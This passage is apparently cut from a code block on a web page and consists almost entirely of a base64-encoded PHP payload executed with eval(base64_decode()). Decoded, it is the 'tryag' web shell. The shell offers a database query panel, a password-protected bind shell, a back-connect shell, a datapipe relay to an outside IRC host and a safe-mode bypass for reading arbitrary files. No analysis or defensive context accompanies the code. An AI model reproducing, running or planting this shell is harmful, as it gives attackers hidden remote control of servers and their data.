PygkX1BPU1RbJ215c3FsX3AnXSk6KCJwYXNzd29yZCIpKSkpOw0KZWNobyBzcigzNSwiPGI+Ii4kbGF
uZ1skbGFuZ3VhZ2UuJ190ZXh0MzknXS4kYXJyb3cuIjwvYj4iLGluKCd0ZXh0JywnbXlzcWxfZGInLD
E1LCghZW1wdHkoJF9QT1NUWydteXNxbF9kYiddKT8oJF9QT1NUWydteXNxbF9kYiddKTooIm15c3FsI
ikpKSk7DQplY2hvIHNyKDM1LCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4NCddLiRhcnJvdy4i
PC9iPiIuaW4oJ2hpZGRlbicsJ2RpcicsMCwkZGlyKS5pbignaGlkZGVuJywnY21kJywwLCdkYl9xdWV
yeScpLCIiKTsNCmVjaG8gJHRlLiI8ZGl2IGFsaWduPWNlbnRlciBpZD0nbic+PHRleHRhcmVhIGNvbH
M9NTUgcm93cz0xIG5hbWU9ZGJfcXVlcnk+Ii4oIWVtcHR5KCRfUE9TVFsnZGJfcXVlcnknXSk/KCRfU
E9TVFsnZGJfcXVlcnknXSk6KCJTSE9XIERBVEFCQVNFUzsgU0VMRUNUICogRlJPTSB1c2VyOyBTRUxF
Q1QgdmVyc2lvbigpOyBzZWxlY3QgdXNlcigpOyIpKS4iPC90ZXh0YXJlYT48YnI+Ii5pbignc3VibWl
0Jywnc3VibWl0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQxJ10pLiI8L2Rpdj48L3RkPiIuJGZlLi
I8L3RyPjwvZGl2PjwvdGFibGU+IjsNCn0NCmlmKCEkc2FmZV9tb2RlJiYhJHdpbmRvd3Mpew0KZWNob
yAkdGFibGVfdXAxLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQ4MSddLnVwX2Rvd24oJ2lkMjEnKS4kdGFi
bGVfdXAyLmRpdignaWQyMScpLiR0cy4iPHRyPiIuJGZzLiI8dGQgdmFsaWduPXRvcCB3aWR0aD0zNCU
+Ii4kdHM7DQplY2hvICI8Zm9udCBmYWNlPVZlcmRhbmEgc2l6ZT0tMj48Yj48ZGl2IGFsaWduPWNlbn
RlciBpZD0nbic+Ii4kbGFuZ1skbGFuZ3VhZ2UuJ190ZXh0OSddLiI8L2Rpdj48L2I+PC9mb250PiI7D
QplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxMCddLiRhcnJvdy4iPC9iPiIs
aW4oJ3RleHQnLCdwb3J0JywxNSwnMTE0NTcnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5
ndWFnZS4nX3RleHQxMSddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdiaW5kX3Bhc3MnLDE1LCd0cn
lhZycpKTsNCmVjaG8gc3IoNDAsIjxiPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV4dDIwJ10uJGFycm93L
iI8L2I+IiwiPHNlbGVjdCBzaXplPVwiMVwiIG5hbWU9XCJ1c2VcIj48b3B0aW9uIHZhbHVlPVwiUGVy
bFwiPlBlcmw8L29wdGlvbj48b3B0aW9uIHZhbHVlPVwiQ1wiPkM8L29wdGlvbj48L3NlbGVjdD4iLml
uKCdoaWRkZW4nLCdkaXInLDAsJGRpcikpOw0KZWNobyBzcig0MCwiIixpbignc3VibWl0Jywnc3VibW
l0JywwLCRsYW5nWyRsYW5ndWFnZS4nX2J1dHQzJ10pKTsNCmVjaG8gJHRlLiI8L3RkPiIuJGZlLiRmc
y4iPHRkIHZhbGlnbj10b3Agd2lkdGg9MzMlPiIuJHRzOw0KZWNobyAiPGZvbnQgZmFjZT1WZXJkYW5h
IHNpemU9LTI+PGI+PGRpdiBhbGlnbj1jZW50ZXIgaWQ9J24nPiIuJGxhbmdbJGxhbmd1YWdlLidfdGV
4dDEyJ10uIjwvZGl2PjwvYj48L2ZvbnQ+IjsNCmVjaG8gc3IoNDAsIjxiPiIuJGxhbmdbJGxhbmd1YW
dlLidfdGV4dDEzJ10uJGFycm93LiI8L2I+IixpbigndGV4dCcsJ2lwJywxNSwoKGdldGVudignUkVNT
1RFX0FERFInKSkgPyAoZ2V0ZW52KCdSRU1PVEVfQUREUicpKSA6ICgiMTI3LjAuMC4xIikpKSk7DQpl
Y2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQxNCddLiRhcnJvdy4iPC9iPiIsaW4
oJ3RleHQnLCdwb3J0JywxNSwnMTE0NTcnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndW
FnZS4nX3RleHQyMCddLiRhcnJvdy4iPC9iPiIsIjxzZWxlY3Qgc2l6ZT1cIjFcIiBuYW1lPVwidXNlX
CI+PG9wdGlvbiB2YWx1ZT1cIlBlcmxcIj5QZXJsPC9vcHRpb24+PG9wdGlvbiB2YWx1ZT1cIkNcIj5D
PC9vcHRpb24+PC9zZWxlY3Q+Ii5pbignaGlkZGVuJywnZGlyJywwLCRkaXIpKTsNCmVjaG8gc3IoNDA
sIiIsaW4oJ3N1Ym1pdCcsJ3N1Ym1pdCcsMCwkbGFuZ1skbGFuZ3VhZ2UuJ19idXR0NCddKSk7DQplY2
hvICR0ZS4iPC90ZD4iLiRmZS4kZnMuIjx0ZCB2YWxpZ249dG9wIHdpZHRoPTMzJT4iLiR0czsNCmVja
G8gIjxmb250IGZhY2U9VmVyZGFuYSBzaXplPS0yPjxiPjxkaXYgYWxpZ249Y2VudGVyIGlkPSduJz4i
LiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyMiddLiI8L2Rpdj48L2I+PC9mb250PiI7DQplY2hvIHNyKDQ
wLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyMyddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLC
dsb2NhbF9wb3J0JywxNSwnMTE0NTcnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZ
S4nX3RleHQyNCddLiRhcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdyZW1vdGVfaG9zdCcsMTUsJ2lyYy5k
YWxuZXQucnUnKSk7DQplY2hvIHNyKDQwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyNSddLiR
hcnJvdy4iPC9iPiIsaW4oJ3RleHQnLCdyZW1vdGVfcG9ydCcsMTUsJzY2NjcnKSk7DQplY2hvIHNyKD
QwLCI8Yj4iLiRsYW5nWyRsYW5ndWFnZS4nX3RleHQyNiddLiRhcnJvdy4iPC9iPiIsIjxzZWxlY3Qgc
2l6ZT1cIjFcIiBuYW1lPVwidXNlXCI+PG9wdGlvbiB2YWx1ZT1cIlBlcmxcIj5kYXRhcGlwZS5wbDwv
b3B0aW9uPjxvcHRpb24gdmFsdWU9XCJDXCI+ZGF0YXBpcGUuYzwvb3B0aW9uPjwvc2VsZWN0PiIuaW4
oJ2hpZGRlbicsJ2RpcicsMCwkZGlyKSk7DQplY2hvIHNyKDQwLCIiLGluKCdzdWJtaXQnLCdzdWJtaX
QnLDAsJGxhbmdbJGxhbmd1YWdlLidfYnV0dDUnXSkpOw0KZWNobyAkdGUuIjwvdGQ+Ii4kZmUuIjwvd
HI+PC9kaXY+PC90YWJsZT4iOw0KfQ0KZWNobyAnPC90YWJsZT4nLiR0YWJsZV91cDMuIjwvZGl2Pjwv
ZGl2PjxkaXYgYWxpZ249Y2VudGVyIGlkPSduJz48Zm9udCBmYWNlPVZlcmRhbmEgc2l6ZT0tMj48Yj5
vLS0tWyB0cnlhZ3NoZWxsIC0gaHR0cC1zaGVsbCBieSBSU1QvR0hDIHwgPGEgaHJlZj1odHRwOi8vcn
N0LnZvaWQucnU+aHR0cDovL3JzdC52b2lkLnJ1PC9hPiB8IDxhIGhyZWY9aHR0cDovL2doYy5ydT5od
HRwOi8vZ2hjLnJ1PC9hPiB8IHZlcnNpb24gIi4kdmVyc2lvbi4iIF0tLS1vPC9iPjwvZm9udD48L2Rp
dj48L3RkPjwvdHI+PC90YWJsZT4iLiRmOw0KDQokdTFwPSIiOyAvLyBGaWxlIHRvIEluY2x1ZGUuLi4
gb3IgdXNlIF9HRVQgX1BPU1QNCiR0eW1jemFzPSIiOyAvLyBTZXQgJHR5bWN6YXMgdG8gZGlyIHdoZX
JlIHlvdSBoYXZlIDc3NyBsaWtlIC92YXIvdG1wDQoNCg0KDQplY2hvICI8UFJFPlxuIjsNCmlmKGVtc
HR5KCR1MXApKXsNCmlmKGVtcHR5KCRfR0VUWyd1MXAnXSkpew0KaWYoZW1wdHkoJF9QT1NUWyd1MXAn
XSkpew0KZGllKCI8dGFibGUgV2lkdGg9JzEwMCUnIGhlaWdodD0nNyUnIGJnY29sb3I9JyM4QzA0MDQ
nIGJvcmRlcj0nMSc+DQo8dHI+DQo8dGQ+PGNlbnRlcj48Zm9udCBzaXplPSczJyBjb2xvcj0nI0JCQj
UxNic+IEJ5ICAqIE1vaGFqZXIyMi1UcllhRyBUZWFtICogKiA8YSBocmVmPWh0dHA6Ly93d3cudHJ5Y
WcuY29tPmh0dHA6Ly93d3cudHJ5YWcuY29tPC9hPiB8IDxhIGhyZWY9aHR0cDovL3d3dy5kd3JhdC5j
b20+aHR0cDovL3d3dy5kd3JhdC5jb208L2E+PC9jZW50ZXI+PC90ZD4NCjwvdHI+DQo8L3RhYmxlPjw
vRk9OVD4iKTsNCn0gZWxzZSB7DQokdTFwPSRfUE9TVFsndTFwJ107DQp9DQp9IGVsc2Ugew0KJHUxcD
0kX0dFVFsndTFwJ107DQp9DQp9DQoNCiR0ZW1wPXRlbXBuYW0oJHR5bWN6YXMsICJjeCIpOw0KDQppZ
ihjb3B5KCJjb21wcmVzcy56bGliOi8vIi4kdTFwLCAkdGVtcCkpew0KJHpyb2RsbyA9IGZvcGVuKCR0
ZW1wLCAiciIpOw0KJHRla3N0ID0gZnJlYWQoJHpyb2RsbywgZmlsZXNpemUoJHRlbXApKTsNCmZjbG9
zZSgkenJvZGxvKTsNCmVjaG8gIiIuaHRtbHNwZWNpYWxjaGFycygkdGVrc3QpLiIiOw0KdW5saW5rKC
R0ZW1wKTsNCg0KfSBlbHNlIHsNCmRpZSgiPEZPTlQgQ09MT1I9XCJSRURcIj48Q0VOVEVSPlNvcnJ5L
i4uIEZpbGUNCjxCPiIuaHRtbHNwZWNpYWxjaGFycygkdTFwKS4iPC9CPiBkb3Nlbid0IGV4aXN0cyBv
ciB5b3UgZG9uJ3QgaGF2ZQ0KYWNjZXNzLjwvQ0VOVEVSPjwvRk9OVD4iKTsNCn0=";

eval(base64
_decode($tryag));

?>
{% endhighlight %}